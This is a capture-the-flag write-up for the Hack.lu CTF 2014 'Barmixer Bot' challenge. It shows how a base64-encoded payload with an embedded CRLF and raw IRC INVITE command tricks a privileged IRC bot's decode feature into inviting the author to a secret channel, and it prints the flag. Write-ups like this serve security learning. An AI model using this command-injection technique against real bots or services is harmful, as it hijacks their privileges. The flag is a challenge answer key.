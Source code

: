 # Hack.lu CTF 2014: Barmixer Bot

**Category:** Misc
**Points:** 200
**Author:** freddy
**Description:**

> There’s a fun and quirky IRC bot to play with. It responds to commands in private chat but also in #hacklu-saloon on Freenode. We think it’s involved in a devious scheme that distracts people to get their money pickpocketed. So be careful!
>
> **Announcement:** Due to a clever hack, somebody took over the nickname `barmixer-bot`, so it is now called `barmixing-bot`.

## Write-up

In the `#hacklu-saloon` channel on Freenode is a bot with operator privileges named `barmixer-bot` (later `barmixing-bot`). Let’s send him a private message:

```
13:36 <mathiasbynens> !help
13:36 <barmixing-bot> Send messages to the bot or the channel starting with an exclamation mark. Known commands are list, status, karma, math, base64, base64d, rot13, ping, hack, request, list
13:36 <mathiasbynens> !list
13:36 <barmixing-bot> Not implemented ;-)
13:36 <mathiasbynens> !status
13:36 <barmixing-bot> My name is barmixing-bot, my uptime is 3 hours 7 minutes and 18 seconds. I am on the following channels: #hacklu-saloon, #hacklu-secret-channel
```

That `#hacklu-secret-channel` sure looks interesting. Sadly it’s not possible to just `/join` it, as it’s an invite-only channel.

Some testing reveals that the bot’s `!base64d` functionality can be exploited. By letting the bot decode a multi-line message, remote IRC command execution is possible. Let’s use this to trick the bot into inviting us to the secret channel:

```bash
$ printf "hi\r\nINVITE mathiasbynens #hacklu-secret-channel" | base64
aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
```

Let’s feed this message to the bot for decoding:

```
13:37 <mathiasbynens> !base64d aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
13:37 <barmixing-bot> hi
13:37 ** You have been invited to #hacklu-secret-channel by barmixing-bot
```

Joining `#hacklu-secret-channel` reveals the flag in the topic:

```
FLAG: GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH
```

The flag is `GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-misc-200-barmixing-bot/>
* <https://ctfcrew.org/writeup/88>
* <http://tasteless.eu/2014/10/hack-lu-ctf-2014-barmixing-bot/>
